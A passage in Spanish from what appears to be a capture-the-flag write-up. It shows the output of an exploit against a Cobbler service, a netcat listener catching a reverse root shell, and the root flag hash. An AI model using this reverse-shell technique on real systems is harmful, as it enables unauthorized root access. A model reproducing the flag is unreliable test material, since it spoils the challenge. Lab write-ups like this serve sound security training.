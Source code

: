 Ahora si lo enviamos veremos lo siguiente:

```
[*] Target: http://127.0.0.1:25151
[*] Listener: 10.10.15.50:7755
[*] Payload: bash
[*] Connecting to Cobbler...
[*] Authenticating...
[*] Executing exploit...
[+] Exploit sent! Check your listener.
```

Pero si volvemos a donde tenemos la escucha veremos esto otro:

```
listening on [any] 7755 ...
connect to [10.10.15.50] from (UNKNOWN) [10.10.11.81] 49206
bash: cannot set terminal process group (1214): Inappropriate ioctl for device
bash: no job control in this shell
root@cobblestone:/# whoami
whoami
root
```

Veremos que ha funcionado, por lo que leeremos la `flag` de `root`.

> root.txt

```
32840207fc4a55c63dcdd369d7c5688c
```
